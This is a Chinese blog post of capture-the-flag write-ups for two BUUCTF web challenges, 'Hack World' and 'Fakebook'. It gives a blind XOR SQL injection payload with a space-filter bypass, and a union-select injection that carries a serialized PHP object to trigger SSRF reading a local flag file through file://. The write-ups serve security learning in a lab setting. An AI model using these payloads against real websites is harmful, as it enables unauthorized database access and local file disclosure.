




<!--yml
category: 未分类
date: 2022-04-26 14:21:56
-->

# BUUCTF-Web题解（二）_flying_bird2019的博客-CSDN博客

> 来源：[https://blog.csdn.net/flying_bird2019/article/details/111461364](https://blog.csdn.net/flying_bird2019/article/details/111461364)

# Hack World

本题可以使用异或注入
0^(if(ascii(substr((select(flag)from(flag)),?,1))>?,1,0))
这道题主要学到了过滤空格如何注入
空格过滤可以用（字段）、反引号+字段+反引号
本题反引号也被过滤因此只能用括号

# Fatebook（SSRF）

首先注册一个账号，查看账号信息，可以看到有一个参数no
这里尝试sql注入
可以发现存在注入
得到数据库里的信息为

查看源码发现

他会通过请求你提交的url资源的内容，因此可以SSRF，
sql注入写入数据
?no=0/**/union/**/select/**/1,2,3,‘O:8:“UserInfo”:3:{s:4:“name”;s:3:“123”;s:3:“age”;i:123;s:4:“blog”;s:29:“file:///var/www/html/flag.php”;}’#

